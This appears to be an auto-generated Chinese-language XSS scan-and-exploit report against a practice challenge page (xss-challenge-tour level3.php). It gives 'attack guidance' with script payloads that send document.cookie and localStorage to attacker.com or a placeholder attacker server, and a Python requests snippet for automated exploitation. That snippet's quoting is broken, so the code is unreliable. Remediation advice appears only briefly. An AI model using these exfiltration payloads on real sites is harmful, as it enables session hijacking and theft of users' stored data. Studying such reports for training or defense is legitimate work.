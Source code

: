 # 漏洞扫描报告
扫描时间: 2025-01-19 22:11:48
目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
扫描模式: 自动化攻击

# 漏洞扫描和利用报告

## 发现的漏洞
### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 严重程度: critical
- 验证载荷: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 修复建议: 实施严格的输入验证，使用HTML编码，实施CSP策略，定期清理存储的数据

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 submit 中注入以下payload:
   ```javascript
   <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'submit': '<script>fetch('http://attacker.com/?cookie='+document.cookie)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 严重程度: critical
- 验证载荷: <svg onload=alert(document.domain)>
- 修复建议: 实施严格的输入验证，使用HTML编码，实施CSP策略，定期清理存储的数据
